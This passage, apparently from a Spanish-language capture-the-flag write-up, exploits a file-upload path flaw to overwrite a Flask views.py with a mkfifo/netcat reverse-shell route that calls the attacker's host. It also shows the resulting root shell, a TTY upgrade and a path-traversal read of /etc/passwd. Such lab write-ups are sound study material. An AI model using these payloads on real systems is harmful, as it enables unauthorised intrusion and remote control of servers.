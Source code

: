 Pero en caso de introducir al comienzo una barra, la toma como prioritaria con respecto a la función ```get_file_name(f.filename)```

```null
>>> os.path.join(os.getcwd(), "public", "uploads", "/test")
'/test'
```

Puedo tratar de crear un nuevo ```views.py``` con una función que se encargue de enviarme una reverse shell

```null
@app.route('/pwned')
def pwned():
    return os.system("rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1|nc 10.10.16.9 443 >/tmp/f")
```

Lo intercepto con ```BurpSuite``` y le cambio el nombre a ```/app/app/views.py```

```null
curl -s -X GET http://10.10.11.164/pwned
```

Gano acceso a un contenedor

```null
nc -nlvp 443
listening on [any] 443 ...
connect to [10.10.16.9] from (UNKNOWN) [10.10.11.164] 35385
sh: can't access tty; job control turned off
/app # whoami
root
/app # ip a    
1: lo: <LOOPBACK,UP,LOWER_UP> mtu 65536 qdisc noqueue state UNKNOWN qlen 1000
    link/loopback 00:00:00:00:00:00 brd 00:00:00:00:00:00
    inet 127.0.0.1/8 scope host lo
       valid_lft forever preferred_lft forever
6: eth0@if7: <BROADCAST,MULTICAST,UP,LOWER_UP,M-DOWN> mtu 1500 qdisc noqueue state UP 
    link/ether 02:42:ac:11:00:03 brd ff:ff:ff:ff:ff:ff
    inet 172.17.0.3/16 brd 172.17.255.255 scope global eth0
       valid_lft forever preferred_lft forever
/ # python3 -c 'import pty; pty.spawn("/bin/sh")'
/ # ^Z
zsh: suspended  nc -nlvp 443
❯ stty raw -echo; fg
[1]  + continued  nc -nlvp 443
                              reset xterm
/ # export TERM=xterm
/ # export SHELL=sh
/ # stty rows 55 columns 209
```

Hau un LFI en la ruta ```/uploads```

```null
curl 'http://10.10.11.164/uploads/..//etc/passwd' --path-as-is
root:x:0:0:root:/root:/bin/ash
bin:x:1:1:bin:/bin:/sbin/nologin
daemon:x:2:2:daemon:/sbin:/sbin/nologin
adm:x:3:4:adm:/var/adm:/sbin/nologin
lp:x:4:7:lp:/var/spool/lpd:/sbin/nologin
sync:x:5:0:sync:/sbin:/bin/sync
shutdown:x:6:0:shutdown:/sbin:/sbin/shutdown
halt:x:7:0:halt:/sbin:/sbin/halt
mail:x:8:12:mail:/var/mail:/sbin/nologin
news:x:9:13:news:/usr/lib/news:/sbin/nologin
uucp:x:10:14:uucp:/var/spool/uucppublic:/sbin/nologin
operator:x:11:0:operator:/root:/sbin/nologin
man:x:13:15:man:/usr/man:/sbin/nologin
```